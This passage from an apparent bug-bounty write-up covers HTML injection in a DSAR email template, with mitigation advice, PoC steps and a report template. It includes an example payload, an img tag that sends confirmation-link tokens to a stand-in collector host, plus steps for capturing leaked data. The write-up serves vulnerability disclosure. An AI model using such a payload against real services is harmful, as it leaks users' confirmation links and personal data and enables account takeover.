 **Impact:** High — allows external spoof-based requests leading to data exfil.  

**Mitigation:** Enforce DKIM/SPF/DMARC, plus inbound email verification and manual triage for sensitive requests.

  

---

  

## Practical PoC Steps (Ethical)

1. **Set up collector**  

   - Run a stable HTTPS server or use Burp Collaborator. Log full request (path, query, headers). Domain example: `https://collector-yourname.example/`.  

2. **Create test accounts**  

   - Register accounts on target with emails you control (Gmail, Outlook). Keep records of timestamps and request IDs.  

3. **Inject payload into fields used by DSAR**  

   - Example payload for a `name` field: `<img src="https://collector.example/?t=__REQUEST_LINK__">`  

   - Submit DSAR or perform the action that triggers the email.  

4. **Monitor collector**  

   - Capture incoming requests. Note any query parameters that include tokens or identifiers.  

5. **Demonstrate safe impact**  

   - Show captured logs + screenshot of email. Do **not** use captured tokens on real user accounts. If demonstrating token usefulness, only use accounts you control.  

6. **Document blast radius**  

   - Check whether templates are tenant-editable, global, or per-organization. Show how many customers could be affected if possible.

  

---

  

## Reporting Template (pastes-ready)

**Title:** HTML injection in DSAR template allows exfiltration of confirmation links / PII to attacker-controlled servers

  

**Summary (1–2 lines):** Unsanitised user-supplied `name` field in the DSAR flow is reflected into email templates. This allows embedding external resource references which leak confirmation URLs and embedded PII to third-party servers, enabling targeted social engineering and possible account takeover.

  